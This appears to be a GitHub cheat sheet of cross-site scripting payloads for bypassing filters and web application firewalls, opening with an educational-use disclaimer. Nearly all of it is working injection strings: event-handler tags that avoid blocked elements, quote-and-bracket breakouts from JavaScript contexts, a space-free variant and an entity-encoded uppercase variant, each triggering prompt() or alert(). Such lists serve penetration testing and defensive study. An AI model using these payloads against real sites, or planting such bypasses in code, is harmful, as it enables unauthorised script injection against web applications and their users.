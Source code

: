 Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

Did you break out of a tag and script, iframe, img, a, &gt; etc are all blocked?
==============

Did they block onerror onload onclick? Try something like this:
```
<XXXXXXX ondblclick=prompt(1)>Some Text, Don't even care to end the tag either.
```
" onclick="prompt(1)
```html
<body onpageshow="prompt(123)">
<details open ontoggle="prompt('xss via toggle')">Toggle Me For More prompts</details>
```

Don't forget the injection might not be a form tag but in the javascript.
==============
";prompt(1);//

';prompt(1);//

What if they are in a function? Break out of it. Count the brackets, etc to kill the function.

"};prompt(1);//

You may need to reconstruct the function

"};prompt(1);function whatever(){//

Don't forget %0D%0A if you need a new line

Obscure Breakout
==============
a'*prompt(123)*'

Event Handlers You Should Investigate to bypass WAF
==============
https://www.w3.org/TR/html52/single-page.html

When you can't use spaces
==============
```
<details/open/ontoggle=prompt(123)>
```
When the text is forced UPPERCASE
==============
```
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```
